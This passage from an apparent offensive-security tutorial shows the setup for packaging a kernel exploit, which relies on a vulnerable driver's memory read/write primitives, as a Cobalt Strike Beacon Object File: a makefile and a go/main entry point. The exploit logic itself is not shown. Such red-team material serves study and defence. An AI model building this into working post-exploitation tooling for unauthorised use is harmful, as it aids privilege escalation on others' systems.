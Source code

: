 ### 3. Foundation

To create a foundation for kernel exploitation via Cobalt Strike, we convert the exploit to a Beacon Object File that utilises the `memoryRead` and `memoryWrite` functions. The implementations of these functions may change over time (for example if we use a different vulnerable driver). But if their function definitions stay the same, we can essentialy develop exploits as Beacon Object Files that do not depend on a specific vulnerable driver, but rather the two function definitions.

#### 3.1 Makefile

The first thing we'll do is create a `makefile` to compile our code to both a PE-file and a BOF subsequently.

{% highlight plain %}
BOFNAME := KernelMii
CC_x64 := x86_64-w64-mingw32-gcc
CC_x86 := i686-w64-mingw32-gcc

all:
    $(CC_x64) -c ./$(BOFNAME).c -o ./$(BOFNAME).x64.o -masm=intel -DBOF 
    $(CC_x86) -c ./$(BOFNAME).c -o ./$(BOFNAME).x86.o -masm=intel -DBOF 
    $(CC_x64) ./$(BOFNAME).c -o ./$(BOFNAME).x64.exe -masm=intel -lole32 -loleaut32 -lntdll
    $(CC_x86) ./$(BOFNAME).c -o ./$(BOFNAME).x86.exe -masm=intel -lole32 -loleaut32 -lntdll
{% endhighlight %}

In the above `makefile`, we've defined our x64 and x86 compiler in a variable. Additionally, we define the name of our project in `BOFNAME`. When running `make`, all commands in the first action will be executed, in this case everything under `all`. The first two commands are the compilation to a BOF. As can be seen, the variable `BOF` is defined to be used for the macro preprocessor. The second two are for the compilation to a PE-file.

#### 3.2 Entrypoint

Usually the `main` function is exported and called by a PE-loader on, for example, double click by a user. For a BOF, we can define which function is called on run ourselves. The Cobalt Strike documentation always uses the `go` function, so we'll go ahead and use that as well. In both `main` and `go`, we'll call the same `boot` function.

{% highlight c %}
#ifdef BOF
    /**
     * CS BOF entry point.
     * 
     * The Cobalt Strike (CS) Beacon Object File (BOF) entry point.
     * 
     * @param char* args The array of arguments.
     * @param int length The length of the array of arguments.
     */
    void go(char* args, int length) {
        boot();
    }
#else
    /**
     * Test the kernel exploit & elavation code
     *
     * @param int argc Amount of arguments in argv.
     * @param char** Array of arguments passed to the program.
     */
    void main(int argc, char** argv) {
        boot();
    }
#endif
{% endhighlight %}
